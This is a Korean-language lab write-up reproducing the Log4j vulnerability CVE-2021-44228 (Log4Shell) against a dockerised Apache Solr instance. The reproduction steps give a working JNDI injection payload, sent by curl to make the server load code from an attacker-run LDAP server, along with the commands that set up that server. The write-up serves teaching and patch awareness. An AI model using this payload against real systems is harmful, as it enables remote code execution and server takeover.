 # CVE-2021-44228

**Contributors**

-   [강성원(@rivercastleone)](https://github.com/rivercastleone)

<br/>

### 요약

-   Log4j는 다양한 pattern을 지원, 그 중 JNDI Lookup pattern을 공격자가 삽입하게 되면 Log4j가 JNDI를 통해 LDAP 서버에 접속하여 객체를 참조하게 됨
  ![](exploit.png)
-  공격자는 이 기능을 이용해서 공격자의 서버로 악성 자바 객체를 다운받게 하여 이 코드를 이용해서 서버를 탈취
-  서버에서 다음과 같이 사용자의 User-Agent 정보를 남긴다고 하면 공격자는 User-Agent 정보에 JNDI를 사용하여 LDAP 과 같은 디렉터리 서비스로부터 악성 JAVA 클래스를 가리키는 URI를 반환

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
![](server.png)
-   서버가 시작 된 후 `http://your-ip:8983/` Apache의 관리 포털을 찾아봄
![](web.png)
-   로그에서 params 필드가 있음도 확인
![](log.png) 
-   `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-ip -p 8888`를 호출하여 공격자 LDAP 서버 및 HTTP 서버 구축
-   `echo -n 'base_encoding_command' | base64` 를 호출하여 실행 시킬 명령어를 인코딩한다 ex) ` echo -n 'touch /tmp/success' | base64`
-  `curl 'http://your-ip:8983/solr/admin/cores?asdf=$\{jndi:ldap://your-ip:1389/Basic/Command/Base64/'base_encoding_command'}'`  를 호출하여 공격자는 JNDI 조회를 통해 악성 서버에 연결하게 됨
![](attack.png)

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 로그 이벤트 데이터를 삽입하거나 악의적인 코드를 실행할 수 있는 취약점으로, 악용될 경우 시스템의 안정성과 보안에 심각한 위협을 초래할 수 있음. 안전한 운영을 위해 주기적으로 Log4j 라이브러리를 최신 버전으로 업데이트를 하여 취약점을 보완하는 것이 중요함
